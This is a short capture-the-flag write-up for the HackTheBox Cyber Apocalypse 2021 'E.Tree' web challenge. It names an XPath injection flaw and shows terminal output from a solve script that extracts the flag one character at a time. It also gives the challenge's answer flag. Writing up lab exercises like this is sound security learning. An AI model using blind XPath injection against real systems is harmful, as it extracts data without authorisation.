 Due to not sanatising the xpath you can inject to get work out data
Ran solve.py to get the 2 parts
Ran solve-pt2.py to get the values

CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}

```
ryan@kali:~/Documents/HackTheBox/CTF/Cyber-Apocalypse-2021/web/E.Tree$ python3 ./solve-pt2.py 
4
4C
4Cc
4Cc3
4Cc3s
4Cc3s$
4Cc3s$_
4Cc3s$_c
4Cc3s$_c0
4Cc3s$_c0n
4Cc3s$_c0nT
4Cc3s$_c0nTr
4Cc3s$_c0nTr0
4Cc3s$_c0nTr0l
4Cc3s$_c0nTr0l}

Flag: 4Cc3s$_c0nTr0l}
ryan@kali:~/Documents/HackTheBox/CTF/Cyber-Apocalypse-2021/web/E.Tree$ python3 ./solve-pt2.py 
C
CH
CHT
CHTB
CHTB{
CHTB{T
CHTB{Th
CHTB{Th3
CHTB{Th3_
CHTB{Th3_3
CHTB{Th3_3x
CHTB{Th3_3xT
CHTB{Th3_3xTr
CHTB{Th3_3xTr4
CHTB{Th3_3xTr4_
CHTB{Th3_3xTr4_l
CHTB{Th3_3xTr4_l3
CHTB{Th3_3xTr4_l3v
CHTB{Th3_3xTr4_l3v3
CHTB{Th3_3xTr4_l3v3l
CHTB{Th3_3xTr4_l3v3l_
```